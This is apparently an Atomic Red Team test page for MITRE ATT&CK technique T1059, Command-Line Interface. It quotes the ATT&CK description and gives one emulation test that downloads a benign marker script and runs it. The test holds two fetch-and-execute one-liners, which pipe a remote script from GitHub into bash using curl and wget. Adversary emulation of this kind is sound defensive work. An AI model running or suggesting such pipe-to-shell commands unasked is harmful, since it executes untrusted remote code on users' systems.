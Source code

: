 # T1059 - Command-Line Interface

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)

<blockquote>Command-line interfaces provide a way of interacting with computer systems and is a common feature across many types of operating system platforms. (Citation: Wikipedia Command-Line Interface) One example command-line interface on Windows systems is [cmd](https://attack.mitre.org/software/S0106), which can be used to perform a number of tasks including execution of other software. Command-line interfaces can be interacted with locally or remotely via a remote desktop application, reverse shell session, etc. Commands that are executed run with the current permission level of the command-line interface process unless the command includes process invocation that changes permissions context for that execution (e.g. [Scheduled Task](https://attack.mitre.org/techniques/T1053)).

Adversaries may use command-line interfaces to interact with systems and execute other software during the course of an
operation.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Command-Line Interface](#atomic-test-1---command-line-interface)

<br/>

## Atomic Test #1 - Command-Line Interface

Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control
the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker
file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux

#### Attack Commands: Run with `sh`!

```sh
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
```

<br/>
